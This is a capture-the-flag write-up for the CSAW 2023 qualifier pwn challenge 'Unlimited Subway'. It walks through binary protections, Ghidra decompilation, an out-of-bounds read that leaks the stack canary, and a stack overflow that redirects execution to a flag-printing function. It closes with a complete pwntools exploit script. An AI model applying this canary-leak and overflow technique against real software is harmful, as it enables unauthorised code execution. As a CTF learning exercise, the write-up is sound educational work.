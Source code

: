 ```yaml
---
title: Unlimited Subway csaw quater 2023
author: megachar0x01
date: 2023-09-18
categories: [Pwn, i386, ctf]
---
```



## Initial Assessment

Upon initial examination of the binary, the following properties and security measures were identified:

- **Architecture**: The binary is compiled for the i386 architecture, indicating that it is intended for 32-bit Intel x86 systems.
    
- **Canary and Non-executable Stack Mitigation**: The binary has enabled security measures, including the use of a "canary" and a non-executable stack. The canary is a random value placed on the stack before local variables, which helps detect stack overflows. Additionally, marking the stack as non-executable prevents the execution of code from that memory region, enhancing security.
    
- **PIE (Position-Independent Executable) Mitigation**: PIE mitigation is disabled in this binary. Consequently, the binary's base address is not affected by Address Space Layout Randomization (ASLR). This lack of ASLR protection may have implications for the binary's exploitability.

<img src="https://i.imgur.com/8cz1wNp.png" alt="img_1">

## Detailed Analysis

Opening binary in Ghidra .

Here's a breakdown of what the Main function is doing:

1. It initializes several local variables, including a bunch of `undefined4` variables (which are essentially 4-byte integers) and a few other variables of different types.

2. It enters a loop using a `while (true)` construct. Inside this loop, it performs the following actions:

   - It calls a function named `print_menu`. Which print the menu.
   
   - It reads two bytes from the standard input into the variable `local_8a`.
   
   - It checks if the character represented by `local_8a` is equal to 'F'. If true, it prompts the user for some data and reads it into `local_88`.

   - If `local_8a` is not equal to 'F', it proceeds to the next `while` loop.
   
   - Inside the next `while` loop, it checks if `local_8a` is equal to 'V'. If true, it prompts the user for an index, reads it into `local_94`, and then calls a function named `view_account` with the address of `local_88` and `local_94` as arguments. This will Read value from memmory.

   - If `local_8a` is not equal to 'V', it proceeds to the next `while` loop.
   
   - Inside the third `while` loop, it checks if `local_8a` is equal to 'E'. If true, it breaks out of the loop and proceeds to the next section of code.

   - If `local_8a` is not equal to 'E', it prints "Invalid choice".

3. After exiting the loop, it prompts the user for the size of a name and reads it into `local_90`.

4. It then prompts the user for a name and reads it into `local_48`.

5. There is a conditional check `if (local_8 != *(int *)(in_GS_OFFSET + 0x14))` which appears to be a stack protection check. If this check fails, it calls `__stack_chk_fail()` which typically triggers a stack smashing error.

6. Finally, the function returns 0.

<img src="https://i.imgur.com/nbI87za.png" alt="img_1">


This is a C function named `print_flag` that does the following:

1. It calls the `system` function with the command `"cat ./flag"`. The `system` function is used to execute shell commands. In this case, it's running the `cat` command to display the contents of a file named `flag`.

2. After executing the command, the function returns.

<img src="https://i.imgur.com/IR5IOAC.png" alt="img_1">


## Vulnerability Assessment

<img src="https://i.imgur.com/EMagNxi.png" alt="img_1">

This enables us to perform an out-of-bounds read, thereby allowing us to extract the canary value.

<img src="https://i.imgur.com/dojWfU8.png" alt="img_1">


By manipulating the number of bytes read in the buffer, we induce a buffer overflow, granting us the ability to redirect code execution towards the 'print_flag' function.
## Flag

<img src="https://i.imgur.com/GmbU86V.png" alt="img_1">


## Exploit Script 

```python
#!/usr/bin/python3

from pwn import *
import struct

# context.terminal = ['tmux','splitw','-h']
os.environ['XDG_CACHE_HOME'] = '/tmp/'

context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''

continue
'''.format(**locals())

exe = './bin'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)
libc = elf.libc ; libc_rop = ROP(libc,checksec=False)

io = start()

canary = b"0x"

for i in range(131,127,-1):	
	io.sendlineafter(b">",b"V")
	io.sendlineafter(b"Index : ", str(i))
	
	canary+=io.recvline().split(b": ")[1].strip(b"\n")
	
for i in range(12):
	#sleep(1)
	print("Leaking Canary "+"."*i)

canary_int=(int(canary,16))

print(f"Leaked Canary : {hex(canary_int)}")

io.sendlineafter(b">",b"E")

io.sendlineafter(b"Name Size : ",b"500")

payload = b""
payload += b"A"*0x40
payload += p32(canary_int)
payload += b"aaaa" #EBP
payload += p32(elf.sym.print_flag)

io.sendlineafter(b"Name : ",payload)


io.interactive()
```
